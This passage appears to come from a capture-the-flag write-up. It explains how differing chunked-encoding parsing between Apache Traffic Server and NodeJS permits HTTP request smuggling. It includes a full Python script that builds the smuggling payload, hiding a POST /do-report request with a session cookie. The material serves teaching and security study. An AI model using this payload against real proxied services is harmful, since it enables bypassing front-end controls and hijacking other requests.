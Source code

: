 From ATS' perspective, it only sees a single request to `GET /login` and because of the first `0\r\n` (AKA the final byte indicator for chunked transfer encoding) ATS does not see beyond that.

On the other hand, NodeJS actually sees both requests, the first request to `GET /login` as well as the second smuggled request, to `POST /do-report`. 

`2 \nxx` actually gets ignored by NodeJS due to the lack of `\r` character and because of that, it ends up treating `f2` as the chunk size. We can then do some calculations to correctly pass in the correct chunk size to be interpreted by the NodeJS server.

Finally, here's a python script that I used to generate the final payload to perform the request smuggling.

```python
import sys

body = b'{"url":"http://localhost:8000/token"}'
cookie = b"connect.sid=s%3AWJQuXDbK68vu2WoFyeYd_4BF7K83hYWC.M2PqksbXo5wLOai3PcCJSoKucZxS6JeJzsu3b56YPt8"

smuggled = (
    b"POST /do-report HTTP/1.1\r\n" +
    b"Host: app:8000\r\n" +
    b"Content-Type: application/json\r\n" +
    b"Content-Length: " + str(len(body)).encode() + b"\r\n" +
    b"Cookie: " + cookie + b"\r\n" +
    b"\r\n" +  
    body + b"\r\n"
    b"\r\n" + 
    b"0\r\n" +
    b"\r\n"
)

def h(n):
    return hex(n)[2:].encode()

smuggled_len = h(len(smuggled) - 7 + 5)

first_chunk_len = h(len(smuggled_len))

sys.stdout.buffer.write(
    b"GET /login HTTP/1.1\r\n" +
    b"Host: localhost\r\n"+
    b"Transfer-Encoding: chunked\r\n" +
    b"\r\n" +
    first_chunk_len + b" \n" + 
    b"x"*len(smuggled_len) + b"\r\n" +
    smuggled_len + b"\r\n" +
    b"0\r\n" +
    b"\r\n" +
    smuggled
)

```
